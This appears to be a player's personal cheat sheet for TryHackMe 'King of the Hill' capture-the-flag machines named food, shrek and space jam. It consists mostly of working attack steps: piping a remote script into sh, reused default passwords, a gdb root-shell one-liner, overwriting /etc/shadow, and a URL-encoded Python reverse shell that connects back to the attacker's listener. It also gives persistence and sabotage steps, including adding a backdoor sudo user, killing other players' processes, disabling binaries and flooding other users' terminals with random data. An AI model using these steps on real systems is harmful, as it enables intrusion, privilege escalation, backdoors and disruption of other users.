 start up the in-browser machine
to run linPEAS, do:
curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh

notable places:
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)
/dev/zero - infinite stream of zeroes
/etc/sudoers - place that determines who is sudo
/etc/shadow - password place 
/etc/passwd - place that stores users
/root/king.txt - ideally it stays as Happygator 


food:

food:givemecookies (telnet or ssh)
ramen:noodlesRTheBest (ssh)
pasta:pastaisdynamic
sudo chmod -xs vim.basic
afterwards stuff
while :
	do
		sudo pkill -9 -u food
		sudo pkill -9 -u bread
		sudo pkill -9 -u tryhackme
done
???
profit


shrek:
navigate to <ip>/Cpxtpt2hWCee9VFa.txt
save the rsa key
chmod 600 <filename>
ssh -i <filename> shrek@<ip>
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
be root
copypaste these in place of shrek's account in /etc/shadow
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::
you now have shrek:onionshavelayers
make shrek a sudoer
sudo chmod 0000 /usr/bin/gdb
cd .ssh
rm *
grab the flag if someone else hasn't already
sudo systemctl stop httpd
sudo systemctl stop tomcat
afterwards stuff




space jam:
ncat -lvnp 4444
curl "<BOX_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"
LFILE=/root/king.txt
echo "Happygator" | cp /dev/stdin "$LFILE"
you're king and root
afterwards stuff
systemctl stop easyaccess
systemctl stop daemon
change password
killall node(make sure to ssh first)
chmod /bin/cp 000

???
profit



references:

afterwards stuff:
sudo useradd technoblade(i typically use password neverdie)
sudo usermod -aG sudo technoblade
echo "banana" > /dev/pts/<0 through 9>
cat /dev/urandom > /dev/pts/<everyone except you> &
wall ""








